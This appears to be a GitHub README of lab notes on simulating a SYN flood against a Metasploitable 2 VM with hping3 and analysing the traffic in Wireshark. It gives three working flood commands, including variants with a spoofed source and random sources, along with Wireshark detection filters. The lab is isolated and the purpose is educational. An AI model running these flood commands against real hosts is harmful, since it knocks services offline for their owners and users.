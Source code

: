 # 📝 DDoS Simulation Lab Notes

## 🧠 Objective

Simulate a simple DDoS (SYN flood) attack on a Metasploitable 2 VM from Kali Linux and analyze the packet traffic using Wireshark.

---

## 💽 Lab Setup

* **Attacker**: Kali Linux (running `hping3`)
* **Target**: Metasploitable 2
* **Monitor**: Wireshark running on attacker machine
* **Virtualization**: VirtualBox with Host-Only Adapter

---

## Detailed Methodology

### 1. Basic SYN Flood

```bash
hping3 -S --flood -V 192.168.56.102
```

* `-S`: SYN flag
* `--flood`: send packets as fast as possible
* `-V`: verbose mode

### 2. SYN Flood with Spoofed Source IP

```bash
hping3 -S 192.168.56.102 -a 10.10.10.10 -p 80 --flood
```

* `-a`: spoofed IP address
* `-p`: destination port

### 3. SYN Flood with Randomized Source IPs & Payload

```bash
hping3 -S 192.168.56.102 -d 120 -p 80 --flood --rand-source
```

* `-d`: data size of each packet (in bytes)
* `--rand-source`: use random source IPs

> 📌 Tip: Run all commands as root for full functionality

---

## 🧪 Observations During Attack

* CPU usage on Metasploitable 2 spiked
* Network became unresponsive to ping after sustained SYN flooding
* Wireshark captured high volume of SYN packets, some with spoofed or random IPs

---

## 🔍 Wireshark Filters Used

To analyze SYN flood pattern:

```wireshark
tcp.flags.syn == 1 && tcp.flags.ack == 0
```

To monitor TCP connections:

```wireshark
tcp.analysis.flags
```

---

## 📂 Files

* `wireshark-captures/ddos-attack.pcapng`: Full capture of SYN flood
* `scripts/hping3_ddos.sh`: Simple bash script to run attack variants

---

## 📸 Screenshots Collected

* ![Kali attack terminal](../screenshots/kali-attack.png)
* ![Metasploitable CPU usage](../screenshots/metasploitable-target.png)
* ![Wireshark SYN flood](../screenshots/wireshark-analysis.png)
* ![Random IP SYN packets](../screenshots/random-source-syn.png)
* ![Spoofed IP attack](../screenshots/spoofed-ip-syn.png)

---

## ✅ Summary

This simulation demonstrates how different types of SYN flood attacks (including spoofed and randomized source IPs) generate abnormal traffic that can be identified using packet inspection tools like Wireshark. All actions were performed in an ethical, isolated test lab.

---

## ⚠️ Disclaimer

This project is for **educational purposes only** and was performed in a controlled lab environment. Never use these techniques on systems you do not own or have explicit permission to test.
